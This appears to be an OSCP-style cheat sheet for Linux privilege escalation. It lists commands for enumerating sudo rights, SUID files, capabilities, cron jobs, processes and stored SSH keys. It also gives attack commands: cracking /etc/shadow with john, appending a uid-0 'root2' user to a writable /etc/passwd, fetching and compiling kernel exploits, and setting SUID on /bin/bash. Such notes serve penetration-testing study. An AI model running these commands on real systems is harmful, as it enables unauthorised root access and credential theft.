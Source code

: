 ### Methodology

#### User and groups
Make note of any custom groups!
```
whoami
whoami -groups
```

Binary permissions 
[https://gtfobins.github.io/](https://gtfobins.github.io/)
```
#sudoers
sudo -l

#capabilities
/usr/sbin/getcap -r / 2>/dev/null

#suid and guid
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
#### Searching for Secrets
```
#Known files and variables
env
bashrc + bash_history

#SSH Keys
find / -name id_rsa 2> /dev/null
find / -name authorized_keys 2> /dev/null
```

#### Locally running services
These can be forwarded [here](obsidian://open?vault=Offensive-Security&file=OSCP%2FPost%20Exploitation%2FTunneling)
```
ss -ntplu
sockstat -l
netstat -an
```

#### Interesting Directories
Enumerate these thoroughly for secrets!
```
/home
/var/log
/var/www/html #Any internal websites or configs here?
/tmp
/opt
```
#### Processes (https://github.com/DominicBreuker/pspy)
Any unusual processes or commands being run?
```
#Only prints system commands.
./psspy64 -p -i 1000

#Prints system commands and events.
./pspy64 -pf -i 1000

#Looking for root processes
ps aux | grep "^root"
watch -n 1 "ps -aux | grep pass"
```
#### Cron
Are there any scripts we can write to?
Are there any scripts that have a customized PATH we can write to?
```
#Inspect these for cronjobs that we could hijack
cat /etc/crontab
ls -lah /etc/cron*
crontab -l

#Can we see running cronjobs?
grep "CRON" /var/log/syslog
```


### World Writeable Directories

```
find / -writable -type d 2>/dev/null
```
#### Automation

```
./linpeas.sh
```


#### Weak File Permissions

```
#Readable /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

#Writable /etc/passwd
#Generate new SHA hash on local machine and write that in replace of the root one:
mkpasswd -m sha-512 <new-password>

#Don't forget to escape $
echo "root2:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

#### Kernel Exploits

```
#Compile exploits inside XenSpawn to avoid issues.
https://github.com/X0RW3LL/XenSpawn

uname -a 
cat /etc/issue
searchsploit linux kernel <version> priv esc

#Linux Exploit Suggester
linuxexploitsuggest.pl -k <version>

#Start Xenspawn
sudo systemd-nspawn -M test

#compile exploit on Xenspawn
`gcc <file.c> -o <exploit>`

#Start python server on kali.
/var/lib/machines/test/root
python -m http.server 80
```





```
#Alternate way to get root rather then using a reverse shell.
chmod +s /bin/bash
/bin/bash -p
```